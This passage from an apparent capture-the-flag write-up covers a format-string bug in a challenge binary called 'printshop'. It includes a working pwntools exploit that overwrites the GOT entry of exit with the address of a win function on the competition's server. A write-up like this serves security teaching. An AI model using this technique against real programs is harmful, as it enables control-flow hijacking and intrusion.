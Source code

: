 ![Source Code](./Images/printshop.png)

The vulnerability here lies in the fact the the format of the input is not checked, meaning that we can print out value from the stack : 

![Vulnerability](./Images/printshop2.png)

Next, we can use the magic of pwntools and use the function fmtstr_payload. We know that the next function to be executed is exit so we can overwrite its GOT address with this of the win function :

```python
from pwn import *

elf = ELF("./printshop")
context.binary = elf

p = remote("chal.pctf.competitivecyber.club", 7997)

p.recvrepeat(1)
p.sendline(fmtstr_payload(6, {elf.got["exit"] : elf.symbols["win"]}))

p.interactive()
```

# Forensics
